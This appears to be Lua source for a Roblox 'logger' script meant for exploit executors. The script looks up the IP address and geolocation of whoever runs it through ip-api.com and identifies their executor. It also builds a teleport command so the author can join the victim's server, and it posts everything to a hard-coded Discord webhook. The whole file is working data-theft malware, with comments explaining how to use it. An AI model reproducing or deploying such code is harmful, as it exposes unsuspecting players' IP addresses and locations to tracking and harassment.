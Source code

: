 local join_script = string.format("game:GetService('TeleportService'):TeleportToPlaceInstance(%s, '%s', game:GetService('Players').LocalPlayer)", game.PlaceId, game.JobId)
print(helo) --line above generates a script that allows u to join the logged user

--checks executor
local webhookcheck =
   is_sirhurt_closure and "Sirhurt" or pebc_execute and "ProtoSmasher" or syn and "Synapse X" or
   secure_load and "Sentinel" or
   KRNL_LOADED and "Krnl" or
   SONA_LOADED and "Sona" or
   "Kid with shit exploit"

local url =
   "https://discord.com/api/webhooks/1308826441038823474/IGzPUlL71GUwo_5jxfWWHipFIlkdY93LFWq2V5NcIe99QpYMjDqrUqYExtQu3MQY7twt" --pretty obvious what to do here
local data = {
            ["username"] = "Salmon-L0G", --webhook name thing idk
            ["avatar_url"] = "https://cdn.upload.systems/uploads/haO2MM1R.png", --avatar image url
    
    ["content"] = " @everyone **" ..game.Players.LocalPlayer.Name.. "** just ran your logger", --normal message
    ["embeds"] = {
       {
           ["title"] = "** " ..game.Players.LocalPlayer.Name.. " just ran your logger**",
           ["description"] = "**"..game:HttpGet("http://ip-api.com/line/?fields=61439").. "Username: "  ..game.Players.LocalPlayer.Name..", Uses: " ..webhookcheck.. "**",
           ["type"] = "rich", --line above sends all the info grabbed using the api + username and exacutor
           ["color"] = 14680319,
           ["footer"] = {
             ["text"] = "" ..join_script.. "", --sends join script
           },
       },
   }
}

local newdata = game:GetService("HttpService"):JSONEncode(data)

local headers = {
   ["content-type"] = "application/json"
}
request = http_request or request or HttpPost or syn.request
local abcdef = {Url = url, Body = newdata, Method = "POST", Headers = headers}
request(abcdef) --post, idk


